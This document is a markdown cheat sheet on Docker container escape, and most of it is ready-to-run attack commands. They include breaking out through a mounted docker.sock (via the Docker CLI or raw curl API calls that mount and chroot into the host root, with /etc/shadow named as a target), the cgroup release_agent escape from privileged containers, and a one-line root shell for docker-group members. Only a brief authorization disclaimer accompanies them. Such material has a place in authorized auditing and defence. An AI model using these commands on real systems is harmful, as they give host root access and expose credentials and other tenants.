

# Docker & Container Escape Cheat Sheet

A comprehensive collection of command snippets, configuration auditing checks, and exploit commands used to check container security and escape to the host system.

---

## Docker Socket Escape Vector



---


## 1. Container Security Enumeration

Check your privileges inside a running container.

*   **Determine if inside a container:**
    ```bash
    ls -la /.dockerenv                 # Presence of .dockerenv file
    cat /proc/1/cgroup | grep docker   # Check if cgroup lists docker namespaces
    ```
*   **Check system capabilities (requires `capsh`):**
    ```bash
    capsh --print
    ```
    *Look for dangerous capabilities like `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, or `CAP_SYS_CHROOT`.*
*   **Identify mounted drives / filesystems:**
    ```bash
    df -h
    mount
    ```

---

## 2. Docker Socket Escape (`/var/run/docker.sock`)

If the Docker daemon socket is mounted inside the container, you can communicate with it to spawn a new container that mounts the host’s root directory.

### A. Verify Socket Presence
```bash
ls -la /var/run/docker.sock
```

### B. Escape via Docker CLI (If Docker client is installed)
```bash
docker run -it -v /:/host/ alpine sh
```
*You can now access the host filesystem at `/host/` (e.g., read `/host/etc/shadow`).*

### C. Escape via Curl (If Docker client is not installed)
Communicate directly with the Docker socket API:
```bash
# 1. Create a container mounting the host root directory
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" \
  -d '{"Image":"alpine","Cmd":["chroot","/host","sh"],"HostConfig":{"Binds":["/:/host"]}}' \
  http://localhost/containers/create?name=escaped

# 2. Start the container
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/escaped/start
```

---

## 3. Privileged Container Escape

If a container is started with the `--privileged` flag, it retains root-level capabilities, allowing direct interaction with the host kernel and devices.

### A. Verify Privileged Mode
```bash
# Privileged containers see all disk devices of the host
fdisk -l
```
*If you see `/dev/sda1` or similar host partitions, you can mount them:*
```bash
mkdir /mnt/host
mount /dev/sda1 /mnt/host
```

### B. Escape via Release Agent (cgroup exploit)
If you have root access inside a privileged container, you can trigger a release agent script that runs on the host kernel.

```bash
# 1. Create cgroup directories
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp
mkdir /tmp/cgrp/x

# 2. Enable release agent notifications
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=$(cat /proc/mounts | grep docker | cut -d' ' -f2)

# 3. Create host command payload script
echo '#!/bin/sh' > /cmd
echo "ps aux > /tmp/host_processes.txt" >> /cmd
chmod +x /cmd

# 4. Set host path of the command script as release agent
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# 5. Trigger the release agent
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
*The command in `/cmd` will run on the host system as root.*

---

## 4. Writable Host Root via Docker Group (Local Privilege Escalation)

If a local user on a Linux host is part of the `docker` group, they can escalate to root instantly.

*   **Check groups:**
    ```bash
    groups
    ```
    *If it includes `docker`:*
*   **Execute exploit:**
    ```bash
    docker run -v /:/mnt -it alpine chroot /mnt /bin/sh
    ```
    *This runs a container, mounts the host root folder to `/mnt`, and drops you into a root shell on the host.*

---

## 5. Disclaimer

> [!WARNING]
> Escaping container sandboxes can crash host systems or expose multiple guest systems. Ensure you have explicit authorization before performing container audits.
